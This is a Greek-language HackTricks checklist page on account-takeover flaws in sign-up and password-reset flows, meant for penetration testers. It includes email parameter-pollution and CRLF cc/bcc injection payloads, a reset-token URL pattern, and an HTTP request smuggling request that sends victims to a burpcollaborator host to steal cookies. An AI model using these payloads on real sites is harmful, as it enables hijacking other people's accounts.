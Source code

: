 # Ευπάθειες Εγγραφής και Κατάληψης

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Κατάληψη Εγγραφής

### Διπλή Εγγραφή

* Δοκιμάστε να δημιουργήσετε έναν υπάρχοντα χρήστη
* Ελέγξτε ποικίλες μορφές του email:
* κεφαλαία γράμματα
* \+1@
* προσθέστε μερικούς τελείες στο email
* ειδικοί χαρακτήρες στο όνομα του email (%00, %09, %20)
* Βάλτε μαύρους χαρακτήρες μετά το email: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Αποκάλυψη Ονόματος Χρήστη

Ελέγξτε αν μπορείτε να καταλάβετε πότε ένα όνομα χρήστη έχει ήδη καταχωρηθεί στην εφαρμογή.

### Πολιτική Κωδικού Πρόσβασης

Δημιουργώντας έναν χρήστη ελέγξτε την πολιτική κωδικού πρόσβασης (ελέγξτε αν μπορείτε να χρησιμοποιήσετε αδύναμους κωδικούς πρόσβασης).\
Σε αυτήν την περίπτωση μπορείτε να δοκιμάσετε να κάνετε brute force στα διαπιστευτήρια.

### Ενέσιμη SQL

[**Ελέγξτε αυτήν τη σελίδα**](sql-injection/#insert-statement) για να μάθετε πώς να προσπαθήσετε να καταλάβετε λογαριασμούς ή να εξάγετε πληροφορίες μέσω **ενεσίμων SQL** σε φόρμες εγγραφής.

### Κατάληψη Oauth

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### Ευπάθειες SAML

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Αλλαγή Email

Όταν είστε εγγεγραμμένος, δοκιμάστε να αλλάξετε το email και ελέγξτε αν αυτή η αλλαγή επικυρώνεται σωστά ή μπορείτε να το αλλάξετε σε αυθαίρετα emails.

### Περισσότεροι Έλεγχοι

* Ελέγξτε αν μπορείτε να χρησιμοποιήσετε **προσωρινά emails**
* **Μακρύς** **κωδικός πρόσβασης** (>200) οδηγεί σε **DoS**
* **Ελέγξτε τα όρια ρυθμού στη δημιουργία λογαριασμού**
* Χρησιμοποιήστε το username@**burp\_collab**.net και αναλύστε την **ανάκληση κλήσης**
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR στις παραμέτρους του API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Ο επιτιθέμενος πρέπει να συνδεθεί με τον λογαριασμό του και να μεταβεί στη λειτουργία **Αλλαγή κωδικού πρόσβασης**.
2. Ξεκινήστε το Burp Suite και παρεμβάλλετε το αίτημα.
3. Στείλτε το στην καρτέλα repeater και επεξεργαστείτε τις παραμέτρους: Αναγνωριστικό χρήστη/ηλεκτρονικό ταχυδρομείο\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Αδύναμο διακριτικό επαναφοράς κωδικού πρόσβασης <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Το διακριτικό επαναφοράς κωδικού πρόσβασης πρέπει να δημιουργείται τυχαία και να είναι μοναδικό κάθε φορά.\
Προσπαθήστε να καθορίσετε εάν το διακριτικό λήγει ή εάν είναι πάντα το ίδιο, σε ορισμένες περιπτώσεις ο αλγόριθμος δημιουργίας είναι αδύναμος και μπορεί να μαντευτεί. Οι παρακάτω μεταβλητές μπορεί να χρησιμοποιηθούν από τον αλγόριθμο.

* Χρονική σήμανση
* Αναγνωριστικό χρήστη
* Ηλεκτρονικό ταχυδρομείο του χρήστη
* Όνομα και επώνυμο
* Ημερομηνία γέννησης
* Κρυπτογραφία
* Μόνο αριθμοί
* Μικρή ακολουθία διακριτικού (χαρακτήρες μεταξύ \[A-Z,a-z,0-9])
* Επαναχρησιμοποίηση διακριτικού
* Ημερομηνία λήξης διακριτικού

### Διαρροή διακριτικού επαναφοράς κωδικού πρόσβασης <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Ενεργοποιήστε ένα αίτημα επαναφοράς κωδικού πρόσβασης χρησιμοποιώντας το API/UI για ένα συγκεκριμένο ηλεκτρονικό ταχυδρομείο, π.χ.: test@mail.com
2. Επιθεωρήστε την απάντηση του διακομιστή και ελέγξτε για το `resetToken`
3. Στη συνέχεια, χρησιμοποιήστε το διακριτικό σε ένα URL όπως `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Επαναφορά κωδικού πρόσβασης μέσω σύγκρουσης ονομάτων χρηστών <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Εγγραφείτε στο σύστημα με ένα όνομα χρήστη που είναι πανομοιότυπο με το όνομα χρήστη του θύματος, αλλά με κενά που έχουν εισαχθεί πριν και/ή μετά από το όνομα χρήστη, π.χ.: `"admin "`
2. Ζητήστε επαναφορά κωδικού πρόσβασης με το κακόβουλο όνομα χρήστη.
3. Χρησιμοποιήστε το διακριτικό που στάλθηκε στο ηλεκτρονικό σας ταχυδρομείο και επαναφέρετε τον κωδικό πρόσβασης του θύματος.
4. Συνδεθείτε στον λογαριασμό του θύματος με τον νέο κωδικό πρόσβασης.

Η πλατφόρμα CTFd ήταν ευάλωτη σε αυτήν την επίθεση.\
Δείτε: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Κατάληψη λογαριασμού μέσω Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Βρείτε ένα XSS μέσα στην εφαρμογή ή ένα υποτομέα αν τα cookies είναι περιορισμένα στο γονικό τομέα: `*.domain.com`
2. Διαρρεύστε το τρέχον **cookie συνεδρίας**
3. Πιστοποιηθείτε ως ο χρήστης χρησιμοποιώντας το cookie

### Κατάληψη λογαριασμού μέσω HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1. Χρησιμοποιήστε το **smuggler** για να ανιχνεύσετε τον τύπο του HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2. Δημιουργήστε ένα αίτημα που θα αντικαταστήσει το `POST / HTTP/1.1` με τα παρακάτω δεδομένα:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` με στόχο την ανακατεύθυνση των θυμάτων στο burpcollab και την κλοπή των cookies τους\
3. Το τελικό αίτημα μπορεί να μοιάζει με το παρακάτω
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Αναφορές από το Hackerone που εκμεταλλεύονται αυτό το σφάλμα\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Κατάληψη λογαριασμού μέσω CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Δημιουργήστε ένα φορτίο για το CSRF, π.χ. "Φόρμα HTML με αυτόματη υποβολή για αλλαγή κωδικού πρόσβασης"
2. Αποστείλετε το φορτίο

### Κατάληψη λογαριασμού μέσω JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

Το JSON Web Token μπορεί να χρησιμοποιηθεί για την πιστοποίηση ενός χρήστη.

* Επεξεργαστείτε το JWT με ένα άλλο ID χρήστη / Email
* Ελέγξτε για αδύναμη υπογραφή JWT

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Αναφορές

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
